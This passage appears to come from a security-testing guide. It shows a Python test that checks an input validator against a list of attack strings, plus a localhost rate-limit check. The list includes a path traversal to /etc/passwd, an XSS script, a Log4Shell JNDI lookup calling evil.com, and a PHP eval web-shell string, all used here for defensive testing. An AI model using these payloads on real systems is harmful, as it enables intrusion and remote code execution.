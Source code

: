 ```python
def test_validation_security():
    """Test validation functions"""
    print("\nTesting Validation Security...")
    
    dangerous_inputs = [
        "../../../etc/passwd",
        "..\\..\\..\\windows\\system32",
        "<script>alert('xss')</script>",
        "${jndi:ldap://evil.com/}",
        "eval(base64_decode($_POST['cmd']))",
    ]
    
    for dangerous in dangerous_inputs:
        try:
            safe_query(dangerous)
            print(f"FAIL: Validation allowed: {dangerous}")
        except ValidationError:
            print(f"PASS: Validation blocked: {dangerous[:30]}...")

if __name__ == "__main__":
    test_validation_security()
    test_api_security()
```

### 2. Rate Limiting Testing

```bash
# Test rate limiting
python3 -c "
import requests
import time

print('Testing rate limiting...')
for i in range(35):  # Exceed 30/minute limit
    try:
        response = requests.get('http://localhost:8000/health', timeout=2)
        if response.status_code == 429:
            print(f'Rate limit triggered at request {i+1}')
            break
        elif i % 5 == 0:
            print(f'Request {i+1}: {response.status_code}')
    except Exception as e:
        print(f'Request {i+1}: Error - {e}')
    time.sleep(0.1)
"
```

## Docker Testing

### 1. Container Build Testing

